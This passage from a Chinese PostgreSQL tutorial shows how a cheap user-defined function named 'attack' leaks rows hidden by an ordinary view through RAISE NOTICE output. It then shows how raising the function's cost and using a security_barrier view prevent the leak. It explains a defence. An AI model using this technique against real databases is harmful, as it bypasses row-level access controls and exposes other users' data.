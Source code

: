   
将attack的成本改为1.1, 就不会先执行了.  
  
```  
digoal=> create or replace function attack(int,int,text,int,text,text,text) returns boolean as $$  
declare  
begin  
  raise notice '%,%,%,%,%,%,%', $1,$2,$3,$4,$5,$6,$7;  
  return true;  
end;  
$$ language plpgsql cost 1.1;  
CREATE FUNCTION  
```  
  
改成1.1后, 显然不能查看到groupid<>2的数据了.  
  
```  
digoal=> select * from v_userinfo where attack(id,groupid,username,age,addr,email,phone);  
NOTICE:  4,2,test,1000,土星,digoal@126.com,11999999999  
-[ RECORD 1 ]------------  
id       | 4  
groupid  | 2  
username | test  
age      | 1000  
addr     | 土星  
email    | digoal@126.com  
phone    | 11999999999  
```  
  
建立安全的视图, 使用security_barrier选项 :   
  
```  
digoal=# create view v_userinfo_1 with(security_barrier) as select * from userinfo where id=2;  
CREATE VIEW  
digoal=# grant select on v_userinfo_1 to digoal;  
GRANT  
digoal=# \c digoal digoal  
You are now connected to database "digoal" as user "digoal".  
digoal=> create or replace function attack(int,int,text,int,text,text,text) returns boolean as $$  
declare  
begin  
  raise notice '%,%,%,%,%,%,%', $1,$2,$3,$4,$5,$6,$7;  
  return true;  
end;  
$$ language plpgsql cost 0.1;  
CREATE FUNCTION  
```  
  
查看非安全视图, 依旧欺骗.  
  
```  
digoal=> select * from v_userinfo where attack(id,groupid,username,age,addr,email,phone);  
NOTICE:  1,1,digoal,1000,杭州西湖区,digoal@126.com,13999999999  
NOTICE:  2,1,test,1000,火星,digoal@126.com,11999999999  
NOTICE:  3,1,test,1000,月球,digoal@126.com,11999999999  
NOTICE:  4,2,test,1000,土星,digoal@126.com,11999999999  
 id | groupid | username | age  | addr |     email      |    phone      
----+---------+----------+------+------+----------------+-------------  
  4 |       2 | test     | 1000 | 土星 | digoal@126.com | 11999999999  
(1 row)  
```  
  